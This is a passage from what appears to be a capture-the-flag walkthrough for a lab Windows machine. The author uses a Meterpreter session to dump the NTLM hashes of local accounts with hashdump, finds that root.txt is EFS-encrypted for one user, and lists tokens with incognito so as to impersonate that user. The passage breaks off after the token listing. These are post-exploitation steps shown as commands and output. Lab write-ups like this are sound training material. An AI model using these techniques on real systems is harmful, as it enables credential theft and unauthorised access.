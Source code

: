 
Got a stable shell now, let's dump the hashes first:

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:caf97bbc4c410103485a3cf950496493:::
cam:1002:aad3b435b51404eeaad3b435b51404ee:1916525df2db99ef56a75152807da93d:::
coby:1000:aad3b435b51404eeaad3b435b51404ee:fa88e03e41fdf7b707979c50d57c06cf:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
john:1003:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
luke:1001:aad3b435b51404eeaad3b435b51404ee:3670611a3c1a68757854520547ab5f24:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:275fb2a3ea8b2433976482b69b94497b:::
```

I can't read `root.txt` because it's encrypted for Coby:

```
C:\Users\Administrator\Desktop>cipher /c root.txt

 Listing C:\Users\Administrator\Desktop\
 New files added to this directory will not be encrypted.

E root.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    RE\Administrator [Administrator(Administrator@RE)]
    Certificate thumbprint: E088 5900 BE20 19BE 6224 E5DE 3D97 E3B4 FD91 C95D

    coby(coby@RE)
    Certificate thumbprint: 415E E454 C45D 576D 59C9 A0C3 9F87 C010 5A82 87E0

  No recovery certificate found.

  Key Information:
    Algorithm: AES
    Key Length: 256
    Key Entropy: 256
```

I'll do it the easy and just impersonate Coby since I have SYSTEM access.

```
meterpreter > load incognito
[-] The 'incognito' extension has already been loaded.
meterpreter > list_tokens -u coby

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
IIS APPPOOL\re
IIS APPPOOL\REblog
NT AUTHORITY\IUSR
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
RE\cam
RE\coby
RE\luke
Window Manager\DWM-1

Impersonation Tokens Available
========================================
IIS APPPOOL\ip
```